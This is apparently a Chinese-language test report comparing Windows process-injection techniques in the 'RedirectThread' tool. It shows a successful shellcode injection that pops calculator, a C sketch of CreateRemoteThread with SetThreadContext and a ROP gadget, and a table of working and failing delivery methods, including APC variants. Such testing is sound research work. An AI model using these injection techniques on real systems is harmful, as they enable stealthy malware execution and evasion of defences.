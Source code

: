 ### ✅ 测试3：官方CreateRemoteThread + ROP - 成功

**官方实现输出**:
```
      RedirectThread - Context Injection Tool

[*] Target PID: 102548
[*] Injection Mode: Shellcode
[*] Delivery Method: CreateRemoteThread
[*] Context Method: ROP Gadget
[*] Allocation Size: 4096 bytes (0x1000)
[*] Allocation Address: 0x60000

[*] Starting injection process...
[*] Opened target process (PID=102548)

[+] Injection successful!
```

**验证结果**: Calculator成功弹出

**关键技术差异**:
```c
// 官方CreateRemoteThread方法（成功）:
hThread = CreateRemoteThread(..., gadget, ..., CREATE_SUSPENDED);
GetThreadContext(hThread, &ctx);
// 修改ctx.Rcx, ctx.Rdx, ctx.R8, ctx.R9（参数）
// 修改ctx寄存器（gadget需要的r1, r2）
SetThreadContext(hThread, &ctx);
ResumeThread(hThread);

// NtCreateThread方法（失败）:
NtCreateThread(..., &ctx, ...);  // 直接提供CONTEXT - 被Windows 11阻止
```

## 实现对比

### 我们的简化实现

**支持的方法**:
- ✅ DLL Pointer Injection (CreateRemoteThread)
- ❌ Shellcode Injection via NtCreateThread (Windows 11限制)

**未实现的方法**:
- ⚠️ Shellcode Injection via CreateRemoteThread + SetThreadContext
- ⚠️ APC-based delivery (QueueUserAPC, NtQueueApcThreadEx2)
- ⚠️ Two-step thread hijacking

### 官方完整实现

**支持的Delivery Methods**:
- ✅ CreateRemoteThread
- ❌ NtCreateThread (Windows 11限制)
- ✅ QueueUserAPC
- ✅ NtQueueApcThread
- ✅ NtQueueApcThreadEx
- ✅ NtQueueApcThreadEx2
